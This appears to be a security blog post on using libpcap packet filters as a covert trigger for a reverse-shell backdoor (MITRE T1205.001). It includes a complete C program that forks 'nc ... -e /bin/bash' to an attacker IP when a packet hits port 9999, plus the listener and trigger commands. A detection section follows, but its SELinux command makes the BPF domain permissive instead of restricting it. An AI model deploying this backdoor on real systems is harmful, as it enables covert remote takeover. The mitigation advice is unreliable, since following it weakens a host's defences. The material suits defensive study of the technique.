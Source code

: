 ```yaml
---
title: Traffic Signaling:- Socket Filters in C2
category: Persistence
tags: [Traffic Signaling (T1205.001)]
---
```


Socket filters provide a mechanism at the kernel level for filtering, managing, and controlling network traffic. By using these filters, network administrators, security software, and even adversaries can craft controlled network communication pathways by selectively allowing or blocking traffic based on specific criteria.

Socket filters operate by attaching filters—typically using the **Berkeley Packet Filter (BPF)**—to network sockets. This enables the system to inspect, modify, and selectively process data packets as they flow through. With this setup, socket filters can analyze packet headers, payloads, and metadata, enabling decisions based on factors like IP addresses, port numbers, and protocols.

## Socket Filters for Backdoor Activation
#### **Initial Compromise and Filter Setup**

Once an adversary compromises a system, they may seek to maintain persistence through a covert backdoor or C&C channel. To do this, they can attach a custom socket filter to the network interface using tools like **libpcap** or **Winpcap** (Windows), or by directly using **setsockopt** with the **SO_ATTACH_FILTER** option. This socket filter allows the adversary to selectively monitor and intercept network traffic to and from the compromised system.

***Example:*** an adversary may install a filter on **eth0** (the primary network interface) to monitor TCP traffic on a specific port (e.g. 9999), which they’ll later use to communicate with a reverse shell or to send commands.

**libpcap-dev installation**
   `sudo apt install libpcap-dev`
This program will now capture TCP packets on port 9999 and print a message when it detects a match. Upon detecting the packet, it will trigger the reverse shell activation by connecting to the attacker

    #include <pcap.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    // Declare the packet handler function before main
    void packet_handler(u_char *user_data, const struct pcap_pkthdr *pkthdr, const u_char *packet);
    
    int main() {
        char errbuf[PCAP_ERRBUF_SIZE];
        pcap_t *handle;
    
        // Open the network interface for packet capture (adjust interface name)
        handle = pcap_open_live("enp0s3", BUFSIZ, 1, 1000, errbuf); // Adjust the interface name
        if (handle == NULL) {
            fprintf(stderr, "Error opening device: %s\n", errbuf);
            return 1;
        }
    
        // Set a filter for TCP traffic on port 9999 (reverse shell port)
        struct bpf_program fp;
        char filter_exp[] = "tcp port 9999";  // Port for reverse shell
        if (pcap_compile(handle, &fp, filter_exp, 0, PCAP_NETMASK_UNKNOWN) == -1) {
            fprintf(stderr, "Error compiling filter\n");
            return 1;
        }
        if (pcap_setfilter(handle, &fp) == -1) {
            fprintf(stderr, "Error setting filter\n");
            return 1;
        }
    
        // Start capturing packets, invoking the packet handler on each match
        printf("Listening for traffic on port 9999...\n");
        pcap_loop(handle, 0, packet_handler, NULL);
    
        // Close the capture handle after the loop finishes
        pcap_close(handle);
        return 0;
    }
    
    // Define the packet handler function
    void packet_handler(u_char *user_data, const struct pcap_pkthdr *pkthdr, const u_char *packet) {
        // Print out some basic info about the captured packet
        printf("Captured a packet matching the filter!\n");
        printf("Packet Length: %d bytes\n", pkthdr->len);
    
        // Simulate reverse shell activation (spawning a shell)
        printf("Initiating reverse shell...\n");
    
        // Execute reverse shell: Connect back to attacker (adjust the IP address)
        if (fork() == 0) {
            execlp("/bin/bash", "bash", "-i", "-c", "nc 192.168.10.73 9999 -e /bin/bash", (char *)NULL);
            exit(0);
        }
    }



**Compile the program**
   `gcc -o packet_capture packet_capture.c -lpcap`

**Run the program**
   `sudo ./packet_capture`

![Packet Filter & capture](/assets/img/socket-filters/packet_capture.png)
#### **2. Sending Crafted Packets to Trigger Reverse Shell**

The attacker needs to listen for incoming reverse shell connections and send a packet to the victim to trigger the filter.


**Set up the Reverse Shell Listener on adversary**
   `nc -lvnp 9999`

This will listen on port 9999 for incoming connections, allowing the attacker to receive the reverse shell once it's triggered.


***Send a Packet to Trigger the Filter on victim machine***
`echo "Test" | nc -w 1 victim-ip 9999` 

![Packet Filter & capture](/assets/img/socket-filters/shell.png)



The attacker needs to send a packet to the victim's machine that matches the BPF filter. Use Netcat to send a simple packet.This packet will match the filter.

This simulation demonstrates how an attacker can use packet filters to trigger a reverse shell without needing to maintain an active connection. By understanding how packet filters work and how they can be leveraged by adversaries, security professionals can better detect and prevent such attacks. The use of packet filters to monitor specific ports can be an effective persistence mechanism for attackers, which makes detecting these activities crucial for securing systems.

#### **3. Triggering Command Shell or Implant Installation**

In this example, the filter could be used to trigger additional actions, such as:

-   **Installing a backdoor** or **implant** on the system.
-   **Command and control (C&C)**: Using the reverse shell to send further commands, enabling remote manipulation of the system.

The filter could be crafted to not just passively monitor traffic but to activate certain system features when certain types of packets are detected. This makes the attack highly stealthy, as there is minimal traffic to attract attention, and the filter's actions are only triggered under specific conditions.

#### **4. Evasion and Low Detection Risk**

Since the socket filter is designed to operate with minimal system overhead, its activity is difficult to detect. It is typically lightweight and does not involve complex processes that could raise suspicion. Additionally, because the socket connection is not activated until the filter receives a matching packet, there is limited activity on the host, making it hard to identify the attack.

The lack of visible network activity and the use of low-overhead socket operations mean that traditional network monitoring tools or IDS systems that rely on frequent traffic inspection may fail to detect the exfiltration or reverse shell activation.

### **Detection and Mitigation**


#### **A. Monitoring and Auditing Network Interfaces**

To detect the use of socket filters for covert backdoor activations, network administrators can monitor for suspicious BPF programs or unusual socket activity. Tools like **bpftool** can list active BPF programs attached to network interfaces, which can help identify abnormal or unauthorized filters.

**Check for BPF programs attached to network interfaces**


`sudo bpftool prog show` 

This can identify any filters that have been installed on the system, such as those attached to port 9999 for reverse shell activation.

![Packet Filter & capture](/assets/img/socket-filters/bpftool.png)

By using bpftool to inspect the loaded BPF programs, administrators can detect the presence of suspicious filters, especially those related to network interfaces or specific ports used in covert backdoor or reverse shell activations. Identifying programs attached to unusual ports or interfaces can help detect attacks using socket filters, which are often used to bypass traditional network defenses.

#### **B. Inspecting Network Traffic**

Adversary-driven packet filters often utilize hidden or non-standard ports for command and control. By analyzing network traffic for deviations from normal patterns—such as traffic on uncommon ports or with unusual packet characteristics—defenders can identify potential exfiltration or C&C activity.

For example, using **tcpdump** to capture traffic on port 9999 can help detect attempts to trigger backdoors or implants.

_**Capturing traffic on port 9999**_


`sudo tcpdump -i enp0s3 port 9999` 

![Packet Filter & capture](/assets/img/socket-filters/tcpdump.png)

#### **C. Kernel Auditing and System Integrity Checks**

Monitoring the integrity of the system kernel can help detect unauthorized filter installation. Using kernel auditing tools like **auditd** and monitoring for the loading of suspicious BPF programs or network-related system calls can provide early warning signs of an attack.

#### **D. Restricting Socket Filter Usage**

Restricting access to the ability to attach socket filters can help prevent adversaries from deploying them. Using system hardening techniques, such as configuring **SELinux** or **AppArmor**, can limit access to the relevant system calls or BPF functionalities.

_**SELinux policy to restrict BPF program usage**_


`semanage permissive -a bpfilter_t` 


### **Conclusion**

The use of socket filters for covert backdoor activation and command and control is a powerful evasion technique used by adversaries. By exploiting _**libpcap**_ or _**Winpcap**_, attackers can create custom filters that monitor specific traffic and trigger malicious actions, such as reverse shells or implant installations, when certain criteria are met. Defenders must be vigilant in monitoring network interfaces, analyzing traffic patterns, and implementing security measures to detect and mitigate such attacks before they can cause damage.